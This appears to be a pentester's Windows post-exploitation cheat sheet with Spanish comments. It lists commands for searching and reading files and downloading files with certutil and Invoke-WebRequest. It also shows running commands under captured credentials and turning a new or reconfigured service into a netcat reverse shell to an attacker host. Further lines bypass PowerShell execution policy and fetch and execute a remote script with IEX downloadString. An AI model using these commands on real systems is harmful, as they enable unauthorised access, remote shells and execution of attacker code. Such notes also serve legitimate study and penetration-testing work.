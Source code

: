 ![[Pasted image 20230215173659.png]]

---

```powershell
# Buscar archivos en el sistema desde el directorio actual
> dir /r /s {name}
# Realizar una lectura del contenido de un archivo 
> type {file}
# Migrar a usuarios 
> cacls 
# Analizar los permisos de un archivo 
```

## Descargar archivos con certutil.exe
```shell
certutil.exe -f -urlcache -split {url/file} {file}
# Descargar un archivo desde una url y depositarlo 
```

## Play with Scripts Block
```PowerShell
# Al tener credenciales, podriamos intentar ejecutar comandos con ese usuario para poder entablarnos una revershell
> $user = '{domain}\{name}'
# Guardamos en la variable user, el nombre del usuario
> $password = ConvertTo-SecureString '{password}' -AsPlainText -Force
# Guardamos en la variable password lo contraseña, ya que en texto claro nos traeria problemas.
> $cred = New-Object System.Management.Automation.PSCredential($user, $password)
# Creamos la credencial en la variable cred.
> Invoke-Command -ComputerName {computer_name} -Credential $cred -ScriptBlock { "command" }
```


## Create Reverse Shell Service
```powershell

> sc.exe create foo binPath="C:\Users\Dobliuw\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```


## Manipulate Service Settings to Execute Reverse Shell
```powershell

> sc.exe config VMTools binPath="C:\Users\dobliuw\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```

  
## Start and Stop Service
```powershell
> sc.exe start {service}

> sc.exe stop {service}
```


## Download Files with Powershell
```powershell
> Invoke-WebRequest 'http://{dominio}/{recurso}' -OutFile ''
```

  
## Bypass Execution Policy
```powershell
> Set-ExecutionPolicy Bypass -Scope Process
```

  
## Interpret Powershell from Remote Server
```powershell
> IEX(New-Object Net.WebClient).downloadString('http://{dominio}/{recurso}')
```



